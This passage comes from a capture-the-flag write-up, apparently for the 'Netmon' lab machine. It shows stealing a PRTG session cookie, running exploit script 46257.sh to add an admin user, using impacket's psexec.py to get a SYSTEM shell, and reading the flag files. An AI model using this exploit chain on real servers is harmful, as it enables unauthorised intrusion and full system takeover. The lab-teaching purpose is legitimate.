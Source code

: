 ![](/images/netmon/19. welcome.png)

And we have access! Now we need to find our session cookie, so either fire up Burp Suite and use the Intercept (proxy) or go to Firefox's developer tools:

![](/images/netmon/20. dev_tools.png)

And here we have our session cookie to plug in to the script!: OCTOPUS1813713946=e0JGRDM2OEMwLTQ0MzAtNDBGRS05NTcwLTNCMTk5ODZBQzk3NH0

Now let's run our bash script!

    ./46257.sh

![](/images/netmon/21. 46257.png)

This particular exploit script has a decent usage screen. So it looks like our actual command should be:

    ./46257.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=e0JGRDM2OEMwLTQ0MzAtNDBGRS05NTcwLTNCMTk5ODZBQzk3NH0"

![](/images/netmon/22. 46257_exploit.png)
(snipped)
![](/images/netmon/22. 46257_exploit_2.png)

Looks like it worked! Now can use impacket's psexec.py to log in: [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)
    
    git clone https://github.com/SecureAuthCorp/impacket.git
    
    cd impacket
    
    pip install .

After the install you should be able to run psexec.py
    
    psexec.py

![](/images/netmon/23. psexec.png)

So our command to exploit should be something like:

    psexec.py pentest:'P3nT3st!'@10.10.10.152 

    whoami

![](/images/netmon/23. psexec_2.png)

Success! We are system. Let's go get our flags:

    type C:\Users\Public\user.txt

![](/images/netmon/24. user.png)

    type C:\Users\Administrator\Desktop\root.txt

![](/images/netmon/25. root.png)
